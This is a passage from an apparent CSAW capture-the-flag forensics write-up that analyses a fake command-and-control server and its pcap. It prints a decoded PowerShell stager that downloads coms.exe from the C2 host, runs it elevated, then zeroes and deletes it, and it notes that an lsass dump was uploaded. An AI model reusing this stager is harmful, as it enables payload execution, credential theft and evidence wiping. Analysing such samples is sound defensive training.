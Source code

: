 That 404 error looks suspiciously like the fastapi default 404 error (which I know from painful personal experience) and fastapi also runs on uvicorn which further gives evidence to this server being written with fastapi. By default, fastapi exposes a `/docs` which has swagger auto-generated endpoint documentation, so I went to https://infected-c2.csaw.io/docs and:

![api docs](https://hackmd.io/_uploads/HJq8iwSkT.png)

Voila! We now have all the endpoints of the suspicious server.

![static.html](https://hackmd.io/_uploads/Bkxh9jwByp.png)
```shell=
[rbadhe@ar2ch ~]$ echo SW52b2tlLVdlYlJlcXVlc3QgLVVyaSBodHRwOi8vaW5mZWN0ZWQtYzIuY3Nhdy5pby9zdGF0aWM/ZmlsZT1jb21zLmV4ZSAtT3V0RmlsZSBDOlxVc2Vyc1xQdWJsaWNcY29tcy5leGU7U3RhcnQtUHJvY2VzcyBDOlxVc2Vyc1xQdWJsaWNcY29tcy5leGUgLVZlcmIgcnVuQXM7U2V0LUNvbnRlbnQgLVBhdGggQzpcVXNlcnNcUHVibGljXGNvbXMuZXhlIC1WYWx1ZSAoJzAnKigoR2V0LUNvbnRlbnQgLVBhdGggQzpcVXNlcnNcUHVibGljXGNvbXMuZXhlKS5MZW5ndGgpKTtSZW1vdmUtSXRlbSAtTGl0ZXJhbFBhdGggQzpcVXNlcnNcUHVibGljXGNvbXMuZXhlOw== | base64 -d
Invoke-WebRequest -Uri http://infected-c2.csaw.io/static?file=coms.exe -OutFile C:\Users\Public\coms.exe;Start-Process C:\Users\Public\coms.exe -Verb runAs;Set-Content -Path C:\Users\Public\coms.exe -Value ('0'*((Get-Content -Path C:\Users\Public\coms.exe).Length));Remove-Item -LiteralPath C:\Users\Public\coms.exe;
```

Decoding the base64 of the redirect in `static.html`, we see that the command downloads `coms.exe`, runs it with privileges, zeros the file, and then deletes it. This is VERY suspicious behaviour so we can be confident this is our virus.

Looking through the pcap further, I see `runs0mewhere.exe` and `lat.ps1` also being downloaded after a `POST` request to `/process_minidump`. I extracted the file uploaded to the server and tried analyzing it in windbg. The only thing I could find from the dump is that it involves `lsass.exe`, the dump is named `FXSTIFFDebugLogFileAdmin.txt`.

![process_minidump request](https://hackmd.io/_uploads/ryBA6Pr16.png)

As I tried figuring out what this dump file is, windows kept deleting my dump saying something about `system32/lsass.exe`, trojans, and that the file needs to be exterminated. I passed the `coms.exe` and `runs0mewhere.exe` to my teammates for revving to figure out what they are doing.

![js0n help](https://hackmd.io/_uploads/S1MeJdr16.png)


At the end of the `/process_minidump` request, we see that the server sends back some base64.

![process_minidump](https://hackmd.io/_uploads/SyuI1OSJT.png)


When I decoded the base64, I just got some incomprehensible suspicious bytes. It must be encrypted somehow. Since after this post request, the next request to the server downloaded `runs0mewhere.exe` and `lat.ps1`, these bytes somehow tell `coms.exe` to download the later stages.

At the end of all of the frames containing "csaw", there is below request:

![ransome note.png wireshark](https://hackmd.io/_uploads/rkV5edHk6.png)

Downloading the image gives us the first flag.

![ransome_note.png](https://hackmd.io/_uploads/ByPaedBk6.png)

